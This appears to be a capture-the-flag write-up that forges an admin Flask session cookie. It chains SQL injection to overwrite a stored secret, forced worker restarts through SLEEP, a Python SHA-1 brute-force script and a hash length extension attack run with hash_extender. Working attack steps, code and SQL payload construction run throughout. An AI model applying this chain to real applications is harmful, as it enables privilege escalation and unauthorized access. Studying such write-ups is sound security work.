 assume: 
    HMAC(key, data) returns bytes, raw hmac sha1 hash for given key and data
    SHA1(data) returns bytes, raw sha1 hash of given data


Our application uses FLASK secret_key  to sign cookies in that way:

secret_key = secondSecret + firstSecret

unsignedCookie = "eyJsb2dnZWRJbiI6dHJ1ZSwidXNlciI6eyJpZCI6MSwiaXNBZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIn19.ZWyXTw" # decoded - {"loggedIn":true,"user":{"id":1,"isAdmin":true,"name":"admin"}}

SALTED = HMAC(secret_key, "cookie-session")

signature = HMAC(SALTED, unsignedCookie)

signedCookie = unsignedCookie + "." + base64(signature)


secondSecret is random hex string with length of 24 which we dont know - we cant brute force it in resonable time so we cant ever retrieve secret_key.

However from sha1 HMAC specification we can learn if key is longer than 64 bytes key = sha1(key) this allows us to length extend secondSecret to get value of sha1(key) 


Here is how to do it 

1. Exploit SQLI to set firstSecret to ''

2. Restart server to reload firstSecret - you can do it by SLEEP(31) in SQL query exploiting SQLI - its possible because gunicorn restarts worker after 30 seconds of no response.

3. Locally brute force sha1 to get hash which - ends with 0xc3, every other byte is less than 128, hash input has to end with your userId on website, for example 2 if you just created account on new instance

very ugly script which does just that for userId 3:




from hashlib import sha1
import string

printable = string.ascii_uppercase + string.ascii_lowercase + string.digits

j = 0

for a in printable:
    for b in printable:
        for c in printable:
            for d in printable:
                for e in printable:
                    j += 1
                    if j % 100000 == 0:
                        print(j)
                    xd = sha1(bytes(str(a+b+c+d+e), "utf-8")+b"\x03").digest()
                    if xd[-1] != 0xc3:
                        continue
                    bad = False

                    for i in xd[:19]:
                        if i > 127:
                            bad = True
                            break
                    if not bad:
                        print(a+b+c+d+e, sha1(bytes(str(a+b+c+d+e), "utf-8")+b"\x03").digest())
                        
                        
                        
From this script we get output "Cbwv3\x03" which sha1 is 5a657d0c6b6b0a25227c27645c48611c2f2954c3


4. You need to be logged in as user with id 3 or whatever you set in script

5. Sign file with content "Cbwv3"

    server will do there operations:


    temp = SHA1("" + "Cbwv3" + "\x03") 
    # SHA1(firstSecret + fileData + userId) 
    # temp will be exacly hash we just bruted - 5a657d0c6b6b0a25227c27645c48611c2f2954c3 in raw form
    # temp = "\x5a\x65\x7d\x0c\x6b\x6b\x0a\x25\x22\x7c\x27\x64\x5c\x48\x61\x1c\x2f\x29\x54\xc3"
    hash = SHA1(secondSecret + temp)                       
    # from response file we can extract hash (last 20 bytes)
    
    # for example hash can be 
    hash = b"\x8a\x64\xdc\x4c\x86\x30\x05\x33\xf8\x40\x4f\xad\x48\x66\xb9\xd2\x84\xa8\x8c\xfa"
    # this is just example hash will be diffrent depending on secondSecret which is random

    in response you should get hash "\x8a\x64\xdc\x4c\x86\x30\x05\x33\xf8\x40\x4f\xad\x48\x66\xb9\xd2\x84\xa8\x8c\xfa"
                        
        
        
        
6. Having hash we can preform hash length extension attack. I used tool https://github.com/iagox86/hash_extender

example usage: 

secondSecret length is 24 and sha1 length is 20 so we know our whole hashed string length is 44

we use append "aaaaaaaaaa" just to make final hash longer than 64 bytes

./hash_extender --secret=44 --signature=8a64dc4c86300533f8404fad4866b9d284a88cfa --format=sha1 -a "aaaaaaaaaa" --data=""

output:

Type: sha1
Secret length: 44
New signature: 249a56080bd3ef571fcdb6b8716d7a87602fa449
New string: 800000000000000000000000000000000000016061616161616161616161

this creates new hash 249a56080bd3ef571fcdb6b8716d7a87602fa449 which is equal to hex(SHA1(secondSecret +b "\x5a\x65\x7d\x0c\x6b\x6b\x0a\x25\x22\x7c\x27\x64\x5c\x48\x61\x1c\x2f\x29\x54\xc3" + b"\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x60\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61"))


7. Then we use SQLI to change firstSecret to b"\x5a\x65\x7d\x0c\x6b\x6b\x0a\x25\x22\x7c\x27\x64\x5c\x48\x61\x1c\x2f\x29\x54\xc3" + b"\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x60\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61"
we can do it by using CONCAT and CHAR functions like: CONCAT(CHAR(0x5a), CHAR(0x65), ... , CHAR(0x61), CHAR(0x61))

here is also the reason we had to brute force that string - mysql is utf-8 so it wouldnt accept random values some over 127 - we also had to brute force 0xc3 at the end of a hash which joins with 0x80 at the beginning of new string which makes it utf-8 correct

8. Now we just restart server exacly the same way as in point 2

9. As server uses secondSecret + firstSecret as hmac key now, and its longer than 64 bytes hmac makes key = sha1(key) operation which makes our hash  b"\x24\x9a\x56\x08\x0b\xd3\xef\x57\x1f\xcd\xb6\xb8\x71\x6d\x7a\x87\x60\x2f\xa4\x49" equal key and we are able to forge cookie with isAdmin: true                
                        
